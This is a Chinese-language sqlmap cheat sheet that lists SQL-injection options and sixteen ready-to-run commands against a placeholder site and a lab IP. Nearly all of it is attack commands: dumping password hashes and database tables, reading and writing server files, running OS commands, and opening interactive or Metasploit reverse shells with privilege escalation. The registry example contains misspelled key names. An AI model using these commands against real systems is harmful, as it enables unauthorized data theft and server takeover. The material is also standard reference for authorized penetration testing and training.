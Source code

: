 ```
--union-use  #采用union 注入
--union-tech orderby #union配合order by
--data "" #POST方式提交数据(--data "page=1&id=2")
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”)
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com")
--user-agent ""  #自定义user-agent
--proxy "http://127.0.0.1:8118" #代理注入
--string=""    #指定关键词,字符串匹配.
--threads 　　  #采用多线程(--threads 3)
--sql-shell    #执行指定sql命令
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" )
--file-read    #读取指定文件
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
--file-dest    #要写入的文件绝对路径
--os-cmd=id    #执行系统命令
--os-shell     #系统交互shell
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/)
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/)
--os-smbrelay  #
--os-bof       #
--reg-read     #读取win系统注册表
--priv-esc     #
--time-sec=    #延迟设置 默认--time-sec=5 为5秒
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入
--eta          #盲注
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　
common-outputs.txt
common-tables.txt      表字典
keywords.txt
oracle-default-passwords.txt
user-agents.txt
wordlist.txt
```

## 2. 常用语句

```
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
```